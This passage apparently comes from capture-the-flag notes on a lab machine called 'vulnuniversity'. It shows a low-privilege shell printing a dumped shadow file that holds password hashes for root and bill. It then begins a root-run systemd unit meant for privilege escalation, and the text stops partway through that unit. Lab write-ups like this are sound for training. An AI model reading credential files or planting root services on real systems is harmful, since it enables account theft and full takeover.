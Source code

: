 ```python
www-data@vulnuniversity:/$ ls /tmp
output
systemd-private-bdeefd24b3db404dbd455703dfaffa8a-systemd-timesyncd.service-zaUH8g
tmp.emRl5R2fIU
tmp.emRl5R2fIU.service
www-data@vulnuniversity:/$ cat /tmp/output
root:$6$VbvnbWCV$F7SSCrKm6JJdUsdcWK3hx47ARJdWvkFuW.JVRfUHSj/od3J34WkMKDJws0558oP0l8Ux2.ZDlpg6KSe5SCoYI0:18109:0:99999:7:::
daemon:*:17953:0:99999:7:::
bin:*:17953:0:99999:7:::
sys:*:17953:0:99999:7:::
sync:*:17953:0:99999:7:::
games:*:17953:0:99999:7:::
man:*:17953:0:99999:7:::
lp:*:17953:0:99999:7:::
mail:*:17953:0:99999:7:::
news:*:17953:0:99999:7:::
uucp:*:17953:0:99999:7:::
proxy:*:17953:0:99999:7:::
www-data:*:17953:0:99999:7:::
backup:*:17953:0:99999:7:::
list:*:17953:0:99999:7:::
irc:*:17953:0:99999:7:::
gnats:*:17953:0:99999:7:::
nobody:*:17953:0:99999:7:::
systemd-timesync:*:17953:0:99999:7:::
systemd-network:*:17953:0:99999:7:::
systemd-resolve:*:17953:0:99999:7:::
systemd-bus-proxy:*:17953:0:99999:7:::
syslog:*:17953:0:99999:7:::
_apt:*:17953:0:99999:7:::
lxd:*:18108:0:99999:7:::
messagebus:*:18108:0:99999:7:::
uuidd:*:18108:0:99999:7:::
dnsmasq:*:18108:0:99999:7:::
sshd:*:18108:0:99999:7:::
ftp:*:18109:0:99999:7:::
bill:$6$0Ab1ttYa$PjLYB5poGT2Hz/pwXwpIKEi3ptJ.UZAqqYGmcCGuzCtnJX9u1aYnkd/6NSH4HS4vbtQUp/pwSXXu.XCsuHHlD/:18109:0:99999:7:::






//////////////////////




PROBAMOS LA GUIA DE GITHUB para conseguir la shell como ROOT:



VICTIMA:

www-data@vulnuniversity:/tmp$ cat root.service 
[Unit]
Description=roooooooooot

[Service]
Type=simple
User=root
```